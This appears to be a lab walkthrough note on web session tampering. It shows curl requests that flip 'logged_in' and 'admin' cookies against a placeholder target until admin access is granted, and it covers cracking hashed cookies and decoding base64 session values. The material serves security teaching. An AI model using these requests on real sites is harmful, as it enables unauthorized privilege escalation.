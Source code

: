 ### Plain Text
**Example, if these were the cookie set after a successful login:**
	`Set-Cookie: logged_in=true; Max-Age=3600; Path=/`
	`Set-Cookie: admin=false; Max-Age=3600; Path=/`
We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

**Requesting the target page:**
```
curl http://TARGET-IP/cookie-test
```
Message returned: **Not Logged In**

**Send another request with the `logged_in` cookie set to true and the `admin` cookie set to false:**
```
curl -H "Cookie: logged_in=true; admin=false" http://TARGET-IP/cookie-test
```
Message returned: **Logged In As A User**

**One last request setting both the `logged_in` and `admin` cookie to true:**
```
curl -H "Cookie: logged_in=true; admin=true" http://TARGET-IP/cookie-test
```
Message returned: **Logged In As An Admin**

### Hashing
Sometimes cookie values are hashed which are `irreversible`. Use [this tool](https://crackstation.net/), which is helpful to reverse the hash that keeps databases of billions of hashes and their original strings.

### Encoding
Encoding is similar to hashing, but in fact, the encoding is `reversible`.  

So, what is the point of encoding?
Encoding allows us to `convert binary data into human-readable text` that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.

**Example:**
`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
